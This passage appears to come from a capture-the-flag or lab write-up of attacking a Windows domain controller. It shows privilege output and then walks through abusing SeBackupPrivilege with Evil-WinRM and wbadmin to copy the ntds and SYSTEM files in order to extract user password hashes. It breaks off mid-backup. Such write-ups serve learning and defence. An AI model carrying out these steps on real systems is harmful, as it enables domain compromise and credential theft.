 ```bash
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

## Privilege Escalation

The privilege `SeBackupPrivilege` and `SeBackupPrivilege` are interesting ones. Searching on the internet we see many articles about exploiting this privilege. This is a good one: [Windows PrivEsc with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)

Users with these privileges can create backups of sensitive data of the AD and restore them. We can use it to copy critical files of the system to extract users hashes. 

We need to get 2 items:

- ntds
- SYSTEM

Becasue the `ntds` file is in use, we need to backup and restore it on a different folder to be able to copy it.

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> mkdir C:\Temp
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd C:\Temp
*Evil-WinRM* PS C:\Temp> 
```

To generate the backup and restore it later, lets use the `wbadmin` tool on Windows.

```bash
*Evil-WinRM* PS C:\Temp> wbadmin start backup -quiet -backuptarget:\\DC01\C$\Temp -include:C:\Windows\ntds
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.


Note: The backed up data cannot be securely protected at this destination.
Backups stored on a remote shared folder might be accessible by other
people on the network. You should only save your backups to a location
where you trust the other users who have access to the location or on a
network that has additional security precautions in place.

Retrieving volume information...
This will back up (C:) (Selected Files) to \\DC01\C$\Temp.
The backup operation to \\DC01\C$\Temp is starting.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Creating a shadow copy of the volumes specified for backup...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Scanning the file system...
Please wait while files to backup for volume (C:) are identified.
This might take several minutes.
Found (0) files.
```
